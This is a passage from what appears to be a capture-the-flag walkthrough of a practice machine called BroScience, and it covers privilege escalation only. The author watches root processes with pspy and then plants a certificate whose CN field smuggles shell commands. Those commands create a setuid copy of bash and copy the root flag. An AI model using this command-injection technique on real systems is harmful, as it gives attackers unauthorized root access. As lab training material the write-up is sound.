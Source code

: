 Privilege Escalation
--------------------

Run [Pspy](https://github.com/DominicBreuker/pspy).

<img alt="" class="bg lw lx c" loading="lazy" role="presentation" src="https://miro.medium.com/v2/resize:fit:1400/1*ke4qPW9DSOfT6s4ltSgosw.png" width="700" height="38">

Viewing the process owned by root. We can see that the script /opt/renew\_cert.sh runs in every 10 seconds and it takes /home/bill/Certs/broscience.crt as an argument.

```bash
./pspy64 -i 100
```

Viewing the contents of the file, it checks whether provided certificate file is expired or not. And if expired, it executes an openssl command to create a outdated certificate file.

We first need to create a certificate which has 1 day expiration and replace it with previous broscience.crt file.

```bash
openssl req -x509 -sha256 -nodes -newkey rsa:4096 -keyout /home/bill/Certs/broscience.key -out /home/bill/Certs/broscience.crt -days 1
# In CN, inject with a command which copies the /bin/bash to /tmp/bash and assign it SGID
test; $(cp /usr/bin/bash /tmp/bash; chmod +s /tmp/bash)
# We can also copy the root.txt file
test; $(cp /root/root.txt /tmp/root.txt)
```

<img alt="" class="bg lw lx c" loading="lazy" role="presentation" src="https://miro.medium.com/v2/resize:fit:1400/1*l-6ctKMZlGbaSkF9i5Rp2Q.png" width="700" height="232">

Wait for 10 seconds, and there must be a /tmp/bash file.

<img alt="" class="bg lw lx c" loading="lazy" role="presentation" src="https://miro.medium.com/v2/resize:fit:1400/1*xhHNumjgeFMiMeCQlGSQAg.png" width="700" height="191">

Here you go. Happy Hacking !!!